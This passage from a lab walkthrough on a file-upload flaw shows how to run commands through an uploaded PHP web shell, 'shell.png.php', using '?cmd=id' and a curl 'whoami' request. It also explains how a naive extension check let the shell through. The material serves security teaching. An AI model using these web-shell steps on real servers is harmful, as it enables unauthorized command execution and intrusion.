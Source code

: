 ![File Uploaded Successfully Message](screenshots/fileup-6.png)  
### 6.4 Trigger the web shell
Access the uploaded file with a command parameter:
```bash
http://fileupload.local/Uploads/shell.png.php?cmd=id
```
![URL Command Parameter](screenshots/fileup-5.png)  

The response should contain output like:
- `uid=33(www-data) gid=33(www-data)`

**Why it worked:** The server accepted `shell.png.php` (naive `.png` check), stored it in a web-accessible directory, and the PHP interpreter executed the `<?php` block.

### 6.5 Post-exploit notes
- Commands run as the web server user (e.g., `www-data`).  
- Use `curl 'http://fileupload.local/Uploads/shell.png.php?cmd=whoami'` for scripted checks.
![Curl URL Modification Parameter](screenshots/fileup-4.png)    
- Do not attempt privilege escalation or lateral movement beyond lab scope.

---